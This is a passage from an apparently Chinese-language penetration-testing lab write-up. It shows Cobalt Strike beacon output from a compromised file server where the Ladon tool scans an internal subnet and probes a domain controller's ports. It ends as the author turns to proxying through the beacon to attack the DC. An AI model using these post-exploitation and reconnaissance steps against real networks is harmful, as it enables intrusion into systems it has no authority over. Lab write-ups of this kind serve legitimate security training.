 ```
[*] Ladon 10.10.10.0/24 OnlineIP
[+] host called home, sent: 473919 bytes
[+] received output:
Ladon 9.2.1
Start: 2023-05-12 16:31:40
PC Name: FILESERVER Lang: zh-CN
Runtime: .net 4.0  ME: x64 OS: x64
OS Name: Microsoft Windows Server 2016 Standard
Machine Make: VMware, Inc.
RunUser: Administrator PR: *IsAdmin
Priv: SeImpersonatePrivilege 已启用
PID: 4964  CurrentProcess: rundll32
FreeSpace: Disk C:\ 50540 MB

load OnlineIP
10.10.10.0/24 is Valid CIDR
IPCound: 256
Scan Start: 2023-05-12 16:31:40
10.10.10.1

[+] received output:
10.10.10.140
10.10.10.139

[+] received output:
=============================================
OnlinePC:3
Cidr Scan Finished!
End: 2023-05-12 16:32:43
```

3、对域控端口探测，计算机名推断为 `dc.fbi.gov`，一样用 cs 的插件

```
[+] received output:
PCname: 10.10.10.139     DC
10.10.10.139     139 Open -> Banner: Windows Netbios

[+] received output:
10.10.10.139     5985 Open -> Banner: Win Winrm
10.10.10.139     5357 Open -> Banner: Win7 Microsoft-HTTPAPI
10.10.10.139     389 Open -> Default is LDAP 
10.10.10.139     636 Open 
10.10.10.139     445 Open -> Default is SMB 
IP Finished!
End: 2023-05-12 16:35:14
10.10.10.139     88 Open -> Default is Kerberos 
```

## 利用漏洞打域控

先在第三台 file-server 的 cs 的 beacon 里建立一个代理节点，方便我们使用 proxychains4 与 dc 10.10.10.139 通讯
